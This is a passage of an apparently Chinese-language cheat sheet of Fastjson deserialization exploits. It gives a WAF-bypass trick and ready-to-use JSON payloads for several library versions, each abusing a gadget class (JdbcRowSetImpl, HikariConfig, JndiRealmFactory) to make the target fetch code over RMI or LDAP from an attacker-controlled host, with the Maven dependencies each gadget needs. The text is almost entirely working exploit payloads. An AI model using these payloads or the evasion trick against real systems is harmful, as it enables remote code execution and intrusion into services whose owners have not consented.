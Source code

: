 
### 绕WAF
FastJson在解析JSON字段的key时，会将_和-替换为空；在1.2.36之前_和-只能单独使用，在1.2.36及之后，支持_和-混合使用。
```
{"@type":"com.sun.rowset.JdbcRowSetImpl",'d_a_t_aSourceName':"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}
```

Ref:
- https://github.com/lemono0/FastJsonParty/blob/main/Fastjson%E5%85%A8%E7%89%88%E6%9C%AC%E6%A3%80%E6%B5%8B%E5%8F%8A%E5%88%A9%E7%94%A8-Poc.md

## poc for all versions

### <= 1.2.68 org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig
pom.xml:
```xml
        <dependency>
            <groupId>org.apache.hadoop</groupId>
            <artifactId>hadoop-client-minicluster</artifactId>
            <version>3.2.1</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:43658/Calc"}
{"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:43658/Calc"}
```

### <= 1.2.66 org.apache.shiro.realm.jndi.JndiRealmFactory
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/org.apache.shiro/shiro-core -->
        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>1.2.4</version>
        </dependency>
```

poc:
```json
{"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory", "jndiNames":["ldap://shiro.5a8a62c8cc78196e6377.d.zhack.ca:43658/Calc"], "Realms":[""]}
```


### <= 1.2.62 org.apache.xbean.propertyeditor.JndiConverter
pom.xml:
```xml
        <!-- https://mvnrepository.com/artifact/org.apache.xbean/xbean-reflect -->
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-reflect</artifactId>
            <version>4.16</version>
        </dependency>
```

